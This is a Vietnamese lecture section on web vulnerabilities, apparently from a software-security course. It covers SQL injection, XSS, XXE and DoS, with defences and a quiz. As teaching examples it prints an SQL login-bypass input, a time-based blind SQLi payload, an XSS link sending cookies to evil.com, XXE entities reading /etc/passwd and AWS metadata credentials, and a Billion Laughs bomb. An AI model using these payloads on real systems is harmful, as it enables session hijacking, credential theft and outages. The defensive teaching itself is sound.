

# 1.4 Web vulnerabilities

> **Tóm tắt một dòng**: SQL Injection và XSS đứng đầu OWASP Top 10 trong gần hai thập kỷ. Hai lỗ hổng này, cùng XXE và một số dạng DoS, có **cùng một nguyên nhân gốc** là trộn lẫn dữ liệu với code mà không escape đúng context. Hiểu nguyên nhân chung này giúp ta không phải học thuộc từng biến thể.

## Một pattern chung cho mọi lỗ hổng injection

Hầu hết lỗ hổng web thuộc nhóm **injection** đều theo cùng một sơ đồ. Một input từ client (không tin cậy) đi vào ứng dụng. Ứng dụng tạo ra một chuỗi mới, thường là kết hợp giữa template do developer viết và input từ client. Chuỗi này được đẩy xuống một **interpreter** nào đó: SQL engine, HTML renderer của browser, XML parser, hay shell.

Vấn đề nằm ở chỗ: nếu chuỗi sinh ra trộn lẫn **dữ liệu từ client** (đáng nhẽ chỉ là data thuần) và **code điều khiển interpreter** (đáng nhẽ chỉ do developer kiểm soát), thì interpreter không phân biệt được hai phần. Attacker có thể nhét code vào chỗ data, biến input thành lệnh.

Đây là pattern chung khái quát:

```
input không tin cậy → ứng dụng → tạo chuỗi → interpreter
                                     ↑
                              chỗ "trộn" sai gây bug
```

Bốn biến thể quan trọng nhất mà ta sẽ học, mỗi cái với một interpreter khác nhau:

| Lỗ hổng | Interpreter bị inject | Thuộc tính CIA bị vi phạm |
|---|---|---|
| SQL Injection | RDBMS engine | C, I, A đều có thể |
| XSS | Browser (HTML và JS) | C, I |
| XXE | XML parser | C, A |
| Command Injection | Shell | C, I, A |

Khi đọc tài liệu các lỗ hổng injection khác (LDAP injection, NoSQL injection, prototype pollution), bạn sẽ nhận ra cùng pattern. Hiểu pattern này là chìa khoá để phòng tránh chung: **luôn phân tách data và code trước khi đẩy xuống interpreter**.

## SQL Injection

### Cơ chế

Hãy bắt đầu với ví dụ đơn giản nhất, một hàm login viết bằng Python:

```python
def login(username, password):
    query = f"SELECT * FROM users WHERE name = '{username}' AND pw = '{password}'"
    return db.execute(query)
```

Khi user gửi `username = "alice"`, `password = "secret"`, query trở thành:

```sql
SELECT * FROM users WHERE name = 'alice' AND pw = 'secret'
```

Trông có vẻ ổn. Nhưng giờ thử kịch bản attacker. Họ gửi `username = "admin' --"`, `password = "bất kỳ"`. Query trở thành:

```sql
SELECT * FROM users WHERE name = 'admin' --' AND pw = 'bất kỳ'
```

Trong SQL, `--` bắt đầu comment, mọi thứ sau nó bị bỏ. Query thực tế server thực thi là `SELECT * FROM users WHERE name = 'admin'`, trả về row admin, bỏ qua check password hoàn toàn. Attacker login được mà không cần biết password.

Đây là **classic in-band SQL injection**: kết quả attack trả về cùng response. Có nhiều biến thể tinh tế hơn được liệt kê dưới đây.

### Phân loại

| Loại | Đặc điểm | Cách thường dùng |
|---|---|---|
| In-band (classic) | Kết quả attack trả về cùng response | UNION-based, error-based |
| Blind | Không có output trực tiếp, attacker phải suy luận gián tiếp | Boolean-based (so true/false), time-based (so thời gian) |
| Out-of-band | Dùng kênh ngoài (DNS, HTTP) để exfiltrate | Hữu ích khi cả in-band và blind đều khó |

Loại **Blind SQL Injection** đáng được nói thêm vì nó tinh vi. Giả sử query không trả về kết quả truy vấn, chỉ trả về true/false hoặc một thông báo chung. Attacker vẫn có thể **brute force** từng ký tự password bằng cách kết hợp với điều kiện. Ví dụ time-based:

```sql
admin' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --
```

Nếu ký tự đầu của password là `a`, server thực thi `SLEEP(5)` và phản hồi chậm 5 giây. Attacker đo thời gian phản hồi để suy ra ký tự. Lặp lại với mọi ký tự alphabet và mọi vị trí, attacker tái tạo toàn bộ password.

### Phòng tránh

Cách **đúng duy nhất** là **parameterized query** (còn gọi là prepared statement):

```python
def login(username, password):
    query = "SELECT * FROM users WHERE name = %s AND pw = %s"
    return db.execute(query, (username, password))
```

Sự khác biệt cốt lõi là gì? Trong cách đúng, driver gửi query template và parameters **tách biệt** xuống server. Server compile query template trước (xác định cấu trúc, index nào dùng, plan thế nào), rồi mới bind parameters vào. Tại thời điểm bind, parameters chỉ được hiểu là **giá trị**, không thể chuyển thành cú pháp SQL nữa. Dù attacker gửi `username = "admin' --"`, server vẫn hiểu đó là chuỗi thuần "admin' --" để so sánh với cột `name`, không phải SQL syntax.

Có một cách "có vẻ đúng nhưng sai" mà nhiều developer hay dùng, đó là **escape thủ công**:

```python
username = username.replace("'", "''")
```

Tại sao cách này không an toàn? Vì escape phụ thuộc rất nhiều vào context. Với multi-byte character encoding như GBK hay BIG5, byte `0x5C` (backslash) có thể là một phần của ký tự multi-byte, dẫn tới khi escape `'` thành `\'`, byte `0x5C` "ăn" mất byte `0x27` (`'`) trong ngữ cảnh GBK, không escape gì cả. Tương tự, Unicode normalization có thể biến `U+FF07` (fullwidth apostrophe) thành `U+0027` sau khi đi qua database. Quá nhiều case ngầm để code thủ công đúng hết. Parameterized query loại bỏ vấn đề này hoàn toàn vì nó không dựa vào escape.

Một biện pháp bổ sung không kém phần quan trọng là **least privilege**: tài khoản database mà ứng dụng dùng chỉ nên có quyền `SELECT`, `INSERT`, `UPDATE` trên các bảng cần thiết. Không bao giờ cho quyền `DROP`, `CREATE`, `FILE` (đọc file hệ thống), hay `xp_cmdshell` (chạy lệnh OS trên SQL Server). Khi attacker khai thác được SQLi, mức độ thiệt hại bị giới hạn bởi quyền của tài khoản.

## Cross-Site Scripting (XSS)

### Cơ chế

XSS có cùng pattern injection nhưng interpreter là **browser của nạn nhân**. Server nhúng input của user vào HTML response mà không encode. Browser parse HTML, gặp đoạn `<script>` của attacker, thực thi nó dưới origin của site nạn nhân.

Hãy nhìn một endpoint Flask lỗi:

```python
@app.route('/search')
def search():
    q = request.args.get('q')
    return f"<h1>Kết quả cho: {q}</h1>"
```

Nếu attacker dụ nạn nhân click link:

```
https://victim.com/search?q=<script>fetch('https://evil.com/?c='+document.cookie)</script>
```

Browser nạn nhân nhận response:

```html
<h1>Kết quả cho: <script>fetch('https://evil.com/?c='+document.cookie)</script></h1>
```

Browser thấy `<script>`, thực thi luôn. Đoạn script gửi cookie session của nạn nhân về `evil.com`. Attacker có cookie, đăng nhập như nạn nhân.

Câu hỏi quan trọng: **vì sao script đó có quyền đọc cookie?** Vì nó chạy dưới origin `victim.com` (same-origin policy cho phép script đọc cookie của origin đó). Cookie session của nạn nhân với `victim.com` có thể bị đọc thoải mái. Đây là điểm mấu chốt: XSS không phải bug của browser, mà là server nhúng code lạ vào response của chính mình.

### Ba biến thể

| Loại | Lưu ở đâu? | Persistent? | Mức độ nguy hiểm |
|---|---|---|---|
| Reflected | Trong URL hoặc form, server echo lại trong response | Không | Trung bình, cần dụ click |
| Stored | Server lưu vào DB rồi render cho mọi user xem trang | Có | Cao, "fire and forget" |
| DOM-based | Hoàn toàn ở client, server không bao giờ thấy | Tuỳ | Khó phát hiện vì không lộ trên server log |

**Stored XSS nguy hiểm nhất** vì nó tự lan. Một payload chèn vào trường "tên hiển thị" trên một forum sẽ kích hoạt cho mọi user xem post của attacker, không cần social engineering. Đó là cơ chế của hàng loạt worm web kinh điển như Samy worm trên MySpace (2005), nhân lên hàng triệu lần trong vài giờ.

**DOM-based XSS** đáng nhắc vì nó né được nhiều biện pháp phòng tránh ở server. Bug xảy ra hoàn toàn trong JavaScript của client. Ví dụ:

```html
<script>
  var name = location.hash.substring(1);
  document.getElementById('greeting').innerHTML = 'Hello ' + name;
</script>
```

URL `https://victim.com/page#` không gửi gì lên server (vì `#` là fragment, browser không gửi). Bug xảy ra hoàn toàn ở client khi JS gán vào `innerHTML`. Server không có cách phát hiện qua log.

### Payload kinh điển

Vì sao bạn cần biết các payload? Vì khi đọc một security report hoặc viết test case, bạn cần nhận ra ngay rằng đây là XSS chứ không phải code thường. Bốn payload căn bản:

```html
<script>alert(1)</script>           <!-- inline script, dễ block -->
      <!-- event handler trong attribute -->
<svg onload="alert(1)">             <!-- SVG có thể có script -->
<a href="javascript:alert(1)">click</a>  <!-- javascript: URI -->
```

Mỗi payload khai thác một chỗ "trộn" khác nhau trong HTML. Đoạn này quan trọng vì nó dẫn tới điểm tinh tế của phòng tránh: **encoding khác nhau cho từng context**.

### Phòng tránh

Phòng XSS không chỉ là "escape `<>`". Đó là quan niệm sai phổ biến nhất. Cách đúng là **encoding theo context**:

| Context | Encoding cần |
|---|---|
| HTML body | Encode `< > & " '` |
| HTML attribute (có quote) | Encode `< > & " '` |
| HTML attribute (không quote) | Encode rất nhiều hơn (kể cả space, slash, `=`) |
| URL parameter | URL-encode (`%XX`) |
| JavaScript string | JS-escape (`\xXX`, `\uXXXX`) |
| CSS value | CSS-escape (`\XX`) |

Một template engine tốt như **Jinja2** (Python), **React JSX** (JavaScript), **Razor** (C#) tự nhận biết context và chọn encoding phù hợp. Nếu bạn vẫn làm việc với chuỗi raw (PHP `echo`, Java JSP `out.print`), bạn phải nhớ chọn encoding đúng cho từng chỗ. Đó là lý do template engine an toàn hơn về XSS.

Hai lớp phòng vệ bổ sung quan trọng:

**Content-Security-Policy (CSP)** là HTTP header mà server gửi cho browser, nói "trang này chỉ được chạy script từ các origin sau, không cho inline script, không cho `eval`". Khi browser thấy `<script>alert(1)</script>` mà CSP cấm inline, nó từ chối thực thi. CSP đóng vai trò "defense in depth": ngay cả khi developer quên escape một chỗ, CSP vẫn chặn được attack.

**HttpOnly cookie**: cookie có flag `HttpOnly` không thể đọc được từ JavaScript (`document.cookie` không thấy nó). Khi XSS xảy ra, attacker không lấy được session cookie, giảm tác động đáng kể.

**SameSite=Strict cookie**: cookie không được gửi cùng request cross-site. Khi attacker tạo trang `evil.com` có một form post tới `victim.com/transfer`, browser không gửi session cookie, bảo vệ chống CSRF (vốn thường kết hợp với XSS).

## XML External Entity (XXE)

### Cơ chế

XML cho phép định nghĩa **entity**, là một loại "macro" thay thế trong tài liệu. Entity có thể trỏ tới resource bên ngoài, kể cả file hệ thống hay URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

Khi XML parser bật **external entity resolution** (mặc định trên nhiều parser cũ), nó đọc file `/etc/passwd` và nhét nội dung vào chỗ `&xxe;`. Nếu chương trình rồi echo lại XML đã parse, attacker đọc được nội dung file.

XXE đáng sợ vì có nhiều biến thể nguy hiểm.

**SSRF qua XXE** dùng entity trỏ tới URL nội bộ, ví dụ AWS metadata service:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

Nếu app chạy trên EC2, request tới `169.254.169.254` trả về IAM credentials của instance. Attacker có credential, kiểm soát toàn bộ AWS account.

**Billion Laughs (DoS qua XXE)** dùng entity tự tham chiếu theo cấp số nhân:

```xml
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!-- ... 6 cấp nữa ... -->
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<root>&lol9;</root>
```

Mỗi cấp nhân 10. Cuối cùng tài liệu mở rộng thành $10^9$ ký tự "lol", parser hết RAM, server sập. Một file XML chỉ vài KB có thể tốn vài GB RAM khi parse.

### Phòng tránh

Phòng XXE rất đơn giản, chỉ cần **tắt external entity** trong parser. Vì mặc định an toàn nay đã phổ biến, đa số parser mới đã tắt sẵn. Nhưng vẫn phải kiểm tra cẩn thận khi dùng parser cũ:

Trên Python, dùng `defusedxml` thay cho `xml.etree`:

```python
from defusedxml.ElementTree import parse
tree = parse('input.xml')
```

Trên Java, set feature secure processing:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Một lựa chọn rộng hơn: **dùng JSON thay XML** nếu ứng dụng không thực sự cần features của XML. JSON đơn giản hơn, không có entity, không có schema phức tạp, ít attack surface hơn nhiều.

## Denial of Service (DoS)

### Phân loại theo lớp tấn công

DoS có thể xảy ra ở nhiều tầng khác nhau, mỗi tầng có cơ chế và phòng tránh riêng:

| Tầng | Ví dụ | Cách chống |
|---|---|---|
| Network (L3/L4) | SYN flood, UDP flood, amplification | Rate limit ở router, scrubbing center, BCP38 |
| Application (L7) | Slowloris, Billion Laughs, ReDoS | Timeout, complexity limit, regex an toàn |
| Algorithmic | Hash collision DoS, ReDoS, Zip bomb | Randomized hash, regex non-backtracking |

DoS tầng network thường được xử lý bởi nhà cung cấp hạ tầng (Cloudflare, AWS Shield) và không phải vấn đề chính của developer ứng dụng. Hai dạng đáng quan tâm với developer là **ReDoS** và **algorithmic DoS qua hash collision**.

### ReDoS (Regular Expression DoS)

Một số regex có **catastrophic backtracking**: thời gian chạy mũ theo độ dài input. Ví dụ kinh điển:

```python
import re
re.match(r'^(a+)+$', 'a' * 30 + 'b')
```

Đoạn này chạy khoảng 30 giây trên máy bình thường. Tại sao? Vì khi engine match `(a+)+` với chuỗi `aaaa...a`, có rất nhiều cách chia số `a` thành các nhóm. Cho 30 `a`, có $2^{29}$ cách chia (phân hoạch theo bit). Khi gặp `b` ở cuối không match `$`, engine phải thử **mọi cách chia** trước khi kết luận fail. Đây là backtracking mũ.

Cloudflare đã từng bị một sự cố ReDoS thật vào tháng 7 năm 2019: một regex trong WAF rule có pattern `.*(?:.*=.*)`. Engine PCRE backtrack mũ với input đặc biệt, làm CPU 100% trên mọi máy chủ Cloudflare, kéo theo nửa Internet bị chậm hoặc gián đoạn trong 27 phút.

Cách phòng:

Thứ nhất, **dùng regex engine không backtrack**. RE2 (gốc Google, có binding cho Go và Python) đảm bảo thời gian chạy tuyến tính theo input. Hyperscan (Intel) tương tự, cực kỳ nhanh.

Thứ hai, **áp timeout** cho mọi regex chạy trên input không tin cậy. Trong Python:

```python
import signal
def handler(signum, frame): raise TimeoutError
signal.signal(signal.SIGALRM, handler)
signal.alarm(1)
try:
    re.match(pattern, input)
finally:
    signal.alarm(0)
```

Thứ ba, **review regex tự động**. Các tool như `rxxr2`, `regexploit`, `safe-regex` quét regex tìm pattern dễ ReDoS (nested quantifier, alternation overlap).

### Algorithmic DoS qua hash collision

Trước năm 2012, hash table trong PHP, Python, Java dùng hash function **tất định**, nghĩa là cùng input luôn cho cùng hash. Attacker có thể tạo nhiều string khác nhau có cùng hash, "rủ nhau" vào cùng bucket. Lookup trên bucket đó từ $O(1)$ trở thành $O(n)$ với $n$ là số collision.

Một POST với 1000 key collision biến request trở thành workload $1000 \times 1000 = 10^6$ comparison thay vì $1000$. Server xử lý chậm hẳn, nếu attacker gửi đồng loạt thì DoS.

Cách phòng: hash function có **secret seed**, gọi là *keyed hash*. Python 3.4+ dùng SipHash với seed ngẫu nhiên mỗi khi process khởi động. Attacker không biết seed nên không tạo collision được. Rust's `HashMap` cũng dùng SipHash mặc định.

## Tổng kết: pattern chung của các lớp lỗ hổng

Để khép lại, hãy nhìn vào sơ đồ chung mà mọi lớp lỗ hổng đã học đều tuân theo:



Mọi nhánh đều dẫn về một điểm chung: **xử lý input từ nguồn không tin cậy một cách thiếu kiểm soát**. Software Security không phải là chống được mọi tấn công (việc đó bất khả). Software Security là việc **thiết lập và bảo vệ ranh giới tin cậy**: ranh giới giữa user và process, giữa process và OS, giữa nội bộ và bên ngoài. Mọi input vượt ranh giới phải được kiểm tra. Đây sẽ là tinh thần xuyên suốt của Lecture 3-4 khi ta dùng BMC để **chứng minh** chương trình tuân thủ ranh giới, và Lecture 5 khi ta dùng fuzzing để **kiểm tra** ranh giới đó.

## Mini-quiz

<details>
<summary>Q1. Phân biệt parameterized query và escape thủ công. Cái nào an toàn hơn và vì sao?</summary>

**Parameterized query** an toàn hơn rất nhiều. Lý do cốt lõi: driver gửi query template và parameters **tách biệt** xuống database server. Server compile query template trước, sau đó bind parameters vào dưới dạng giá trị. Tại thời điểm bind, parameters chỉ là giá trị, không thể trở thành cú pháp SQL.

**Escape thủ công** dễ sót case. Multi-byte encoding (GBK, BIG5) có thể làm escape sai. Unicode normalization sau khi vào database có thể đảo ngược escape. Column name trùng SQL keyword cần escape khác. Quá nhiều ngách để code đúng hết. Trong production, **luôn dùng parameterized**.
</details>

<details>
<summary>Q2. Tại sao XSS reflected ít nguy hiểm hơn XSS stored?</summary>

XSS reflected yêu cầu attacker phải **dụ** nạn nhân click một link đã chế (thường qua phishing email, hoặc redirect từ trang khác). Bước social engineering này là rào cản, làm giảm tỷ lệ thành công.

XSS stored chỉ cần lưu payload lên server một lần (qua field comment, profile bio, tên hiển thị). Sau đó, **mọi user vào xem trang đều bị attack tự động**, không cần thêm tương tác nào. "Blast radius" lớn hơn nhiều, và payload có thể tự lan (như Samy worm trên MySpace 2005). Đó là lý do stored XSS thường được xếp critical, reflected XSS thường xếp high.
</details>

<details>
<summary>Q3. Một regex như thế nào dễ bị ReDoS? Cho ví dụ và giải thích cơ chế.</summary>

Regex dễ bị ReDoS thường có **nested quantifier** với phần con có thể match nhiều cách. Ví dụ kinh điển:

```regex
(a+)+
```

Với input `aaaa...ab` (n ký tự a, kết thúc b), engine phải thử mọi cách chia n ký tự `a` thành các nhóm `a+`. Vì mỗi `a` có thể nằm trong group này hoặc group kế (nhóm liền sau), có $2^{n-1}$ cách chia. Khi gặp `b` ở cuối không match điều kiện kết thúc, engine backtrack từng cách chia, tổng cộng $O(2^n)$ bước.

Pattern nguy hiểm chung:
- Nested quantifier: `(a+)+`, `(a*)*`.
- Alternation với overlap: `(a|aa)+`.
- Lookahead với quantifier: `(\w+)*`.

Cách phòng:
- Viết regex non-ambiguous: `a+` thay vì `(a+)+`.
- Dùng engine không backtrack: RE2, Hyperscan.
- Áp timeout cho regex chạy trên input không tin cậy.
</details>

---

**Tiếp theo**: [1.5 Giới thiệu Formal Verification](./05-formal-verification-intro)
